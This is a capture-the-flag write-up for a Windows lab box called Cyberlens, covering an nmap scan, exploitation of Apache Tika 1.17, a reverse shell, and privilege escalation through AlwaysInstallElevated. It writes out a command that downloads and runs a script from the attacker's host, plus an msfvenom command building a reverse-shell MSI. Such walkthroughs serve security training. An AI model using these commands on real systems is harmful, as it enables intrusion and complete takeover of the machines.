# Cyberlens

#Windows 
## Reconnaissance

I started running nmap and I got this following result.

```
$ nmap -sV -Pn 10.65.167.68 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-15 06:32 -0500
Nmap scan report for cyberlens.thm (10.65.167.68)
Host is up (0.13s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.25 seconds
```


By accessing port `80`, I got this following page.

<figure><figcaption></figcaption></figure>

## Enumeration

Accessing the page's source code, I found an endpoint `/meta` on port `61777`. 

<figure><figcaption></figcaption></figure>

Accessing the port `61777`, I noticed that the application is using `Apache Tika` on servion `1.17`.

<figure><figcaption></figcaption></figure>

Searching for exploits, I found the first the appeared in the list.

<figure><figcaption></figcaption></figure>

Running this exploit, I was able to confirm that the application has a vulnerability on this version, running a ping command.

<figure><figcaption></figcaption></figure>

Since the application is running on Windows, I am going to use this reverse shell to obtain access.

<figure><figcaption></figcaption></figure>

Sending the command, I was able to get a shell on this machine.

<figure><figcaption></figcaption></figure>

Reading `user.txt` flag.

<figure><figcaption></figcaption></figure>

I found these credentials, that may be useful for something.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Using the command `Get-MpComputerStatus` we can notice that there isn't protection mechanisms enabled or running. We can take advantage of this to use scripts and malicious payload using `msfvenom`.

<figure><figcaption></figcaption></figure>

Checking to ways to escalate the privilege, I ran this following script which we can find on this repository:

https://github.com/itm4n/PrivescCheck

```
PS C:\users\cyberlens\desktop> wget http://192.168.130.101:4444/PrivescCheck.ps1 -O PrivescCheck.ps1
PS C:\users\cyberlens\desktop> . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```

<figure><figcaption></figcaption></figure>

We can noticed that `AlwaysInstallElevated` is enabled. It allows us to exploit by running a malicious MSI file. I used `msfvenom` to create it.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.101 LPORT=1337 -a x64 --platform Windows -f msi -o rev.msi
```

Running the MSI file, I was able to get a shell as AUTHORITY\SYSTEM.

<figure><figcaption></figcaption></figure>

I was able to read `admin.txt` flag.

<figure><figcaption></figcaption></figure>